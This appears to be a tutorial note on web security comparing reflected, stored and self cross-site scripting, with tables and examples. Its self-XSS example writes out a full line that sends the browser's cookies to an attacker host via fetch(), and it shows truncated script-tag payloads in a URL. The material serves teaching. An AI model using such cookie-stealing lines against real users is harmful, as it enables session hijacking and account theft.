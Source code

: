 # 08. Common questions about reflected cross-site scripting

## 📌 Differences Between Reflected, Stored, and Self-XSS

### 🔁 Reflected XSS vs. Stored XSS

| Aspect | **Reflected XSS** | **Stored XSS** |
| --- | --- | --- |
| **Source** | Input comes from the **immediate HTTP request** | Input comes from **previously stored data** |
| **Timing** | Reflected **immediately** in the HTTP response | Reflected **later** in another response |
| **Persistence** | **Non-persistent** – needs to be delivered via link or request | **Persistent** – lives on the server/database until triggered |
| **Delivery** | Delivered via crafted **URL, email, or input** | Delivered when the **stored data is loaded** |

📝 **Example:**

- **Reflected XSS:**
    
    Attacker sends a link like `https://example.com/search?q=<script>...</script>`
    
- **Stored XSS:**
    
    Attacker posts a comment containing `<script>...</script>` that runs when viewed by others.
    

---

### 👤 Reflected XSS vs. Self-XSS

| Aspect | **Reflected XSS** | **Self-XSS** |
| --- | --- | --- |
| **Trigger Method** | Triggered by a **crafted URL or input** from attacker | Triggered by **victim themselves**, typically by pasting code |
| **User Involvement** | Victim is **passive** – simply clicks a link or loads a page | Victim is **active** – manually pastes attacker’s script |
| **Delivery Method** | Sent via URL, input field, or cross-domain request | Requires **social engineering** |
| **Severity** | Considered a **real vulnerability** | Considered **low-impact or lame** due to limited exploitation |

🧠 **Self-XSS Example:**

An attacker convinces a user to paste the following into their browser’s developer console:

```
fetch('https://attacker.com/steal?cookie=' + document.cookie)

```

Since this requires **voluntary victim action**, it does **not reflect a true vulnerability in the application** itself.